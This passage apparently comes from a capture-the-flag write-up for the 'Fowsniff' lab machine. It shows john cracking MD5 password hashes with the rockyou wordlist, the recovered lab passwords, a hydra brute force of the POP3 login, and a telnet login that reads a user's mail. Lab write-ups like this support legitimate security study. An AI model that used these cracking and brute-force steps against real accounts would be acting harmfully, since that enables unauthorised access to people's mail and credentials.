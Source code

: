 ## Password cracking
I use `john` to crack the list of hashes that I placed in the `credentials.txt` file (using the wordlist `rockyou.txt`) : 

```
└─# john credentials.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=raw-md5
Using default input encoding: UTF-8
Loaded 9 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
scoobydoo2       (seina@fowsniff)     
orlando12        (parede@fowsniff)     
apples01         (tegel@fowsniff)     
skyler22         (baksteen@fowsniff)     
mailcall         (mauer@fowsniff)     
07011972         (sciana@fowsniff)     
carp4ever        (mursten@fowsniff)     
bilbo101         (mustikka@fowsniff)  
```
I retrieve all the users' passwords. I will now see if they have been changed, by trying to brute force the `POP3 login`.

## POP3 bruteforce
I use `hydra` to try to brute force the `POP3 login` with the list of credentials I obtained :

```
└─# hydra -C credentialsEnClair.txt fowsniff.thm pop3
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-04-29 17:26:18
[INFO] several providers have implemented cracking protection, check with a small wordlist first - and stay legal!
[DATA] max 8 tasks per 1 server, overall 8 tasks, 8 login tries, ~1 try per task
[DATA] attacking pop3://fowsniff.thm:110/
[110][pop3] host: fowsniff.thm   login: seina   password: scoobydoo2
1 of 1 target completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-04-29 17:26:21
```
The user `seina` has not changed their password. I found a documentation with basic `POP3` commands and how to connect. So, I connect with their credentials on `POP3` using telnet to see if I can find any interesting emails : 

```
└─# telnet fowsniff.thm 110
Trying 10.10.204.158...
Connected to fowsniff.thm.
Escape character is '^]'.
+OK Welcome to the Fowsniff Corporate Mail Server!
USER seina
+OK
PASS scoobydoo2
+OK Logged in.
LIST
+OK 2 messages:
1 1622
2 1280
.
RETR 1
+OK 1622 octets
Return-Path: <stone@fowsniff>
X-Original-To: seina@fowsniff
Delivered-To: seina@fowsniff
```